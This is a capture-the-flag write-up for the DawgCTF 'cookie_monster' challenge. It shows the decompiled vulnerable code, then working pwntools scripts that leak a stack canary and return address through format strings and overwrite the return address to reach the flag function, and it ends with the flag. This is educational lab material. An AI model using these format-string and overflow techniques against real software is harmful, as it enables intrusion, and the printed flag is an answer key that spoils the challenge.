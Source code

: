 Main call `conversation()`:
```c
__int64 conversation()
{
  unsigned int v0; // eax
  int v1; // eax
  char v3; // [rsp+Fh] [rbp-11h]
  char s; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+1Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  v5 = v1;
  saved_cookie = v1;
  puts("\nOh hello there, what's your name?");
  fgets(&s, 8, _bss_start);
  printf("Hello, ", 8LL);
  printf(&s);
  puts("\nWould you like a cookie?");
  gets(&v3);
  return check_cookie(v5);
}
```

There is a format string vuln on first input and a buffer overflow on second input. 
We need to bypass cookie (canary) and jump into flag function.

Checksec:
```
[*] '/home/marco/Desktop/umbccd/cookie_monster/cookie_monster'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Since there is PIE we need to use the format string to leak the ret address (main+24) and use it to retrive flag function address.
To bypass the canary is a random number wich is generated bad. 
So the intended solution generate the same number executing the program in the same moment.
(code from https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/cookie_monster/cookie_sol.py):

```python
import ctypes

LIBC = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

#srand on the current time to get same seed as server
LIBC.srand(LIBC.time(0))
cookie = p32(LIBC.rand())
```

MY solution:

I noticed the number change every second. So if we open 2 connections with 2 different programs we obtain the same number. 
We can use first program to leak the canary, pass to the second program and use the second program to leak the address and get the flag.

Exploit:
```python
#!/usr/bin/python3.8
from pwn import *
import subprocess

r = remote('ctf.umbccd.io', 4200)
#r = process('./cookie_monster')

s = subprocess.Popen(['./leaker.py'], shell=True, stdout=subprocess.PIPE).stdout.read()
s = int(s.decode().split('\n')[3], 16)

print(r.recvuntil('?').decode())
r.sendline('%11$p')
print(r.recvuntil('Hello, ').decode())
mn = r.recv(16)
main24 = int(mn, 16)
flag = (main24-0x19a)

print('leaked cookie: ', hex(s))
print('leaked main+24: ', hex(main24), ' current flag address: ', hex(flag))


print(r.recvuntil('?\n').decode())

payload = (('A'*13).encode())
payload += p32(s)
payload += (('A'*8).encode())
payload += p64(flag)
r.sendline(payload)
print(r.recvall().decode())
#r.interactive()
```

leaker program:
```python
#!/usr/bin/python3.8
from pwn import *

p = remote('ctf.umbccd.io', 4200)
#p = process('./cookie_monster')

p.recvuntil('?')
p.sendline('%9$lx')
p.recvuntil('Hello, ')
cookie = int(p.recv(8), 16)
print(hex(cookie), "\n")
p.close()
```

# FLAG
`DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}`
